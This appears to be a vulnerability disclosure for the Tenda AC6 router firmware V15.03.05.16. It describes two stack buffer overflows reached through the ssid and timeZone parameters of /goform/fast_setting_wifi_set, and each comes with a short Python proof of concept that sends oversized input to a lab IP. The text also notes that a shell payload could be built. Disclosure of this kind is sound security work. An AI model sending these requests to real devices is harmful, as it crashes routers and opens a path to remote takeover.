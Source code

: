 form\_fast\_setting\_wifi\_ set ssid
------------------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

The acting parameter ssid of the function form\_fast\_setting\_wifi\_set in the affected file /goform/fast\_setting\_wifi\_set causes a stack-based buffer overflow. The attack can be launched remotely

In the function form\_fast\_setting\_wifi\_set, it reads the user-supplied arguments into src and `strcpys`

![](api/attachments/OzhOMXwsr5cB/image/image.png)

### poc

```text-plain
import requests

IP = "192.168.142.100"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```

![](api/attachments/XJRH28oqmYZp/image/image.png)

form\_fast\_setting\_wifi\_set  timeZone
----------------------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

  
This function accepts the POST parameter timeZone, does not verify its length, and copies it directly to a local variable on the stack, resulting in a stack overflow. This vulnerability allows an attacker to cause a denial of service (DoS), but of course you can build a payload to get a stable shell to control the device.

![](api/attachments/MUgRNGsrj29y/image/image.png)

A vulnerability was found in Tenda AC6 V15.03.05.16. The vulnerability affects the functionality of the /goform/fast\_setting\_wifi\_set file form\_fast\_setting\_wifi\_set. Using the timeZone parameter causes a stack-based buffer overflow. The attack can be launched remotely.

### poc

```text-plain
import requests

# URL
url = "http://192.168.142.100/goform/fast_setting_wifi_set"


# POST
data = {
    "ssid": b"Raining",
    "timeZone": b'Raining'*0x100
}


response = requests.post(url,data=data)

print("Status Code:", response.status_code)
print("Response Body:", response.text)
```

![](api/attachments/OHRp2yJGNXI6/image/image.png)
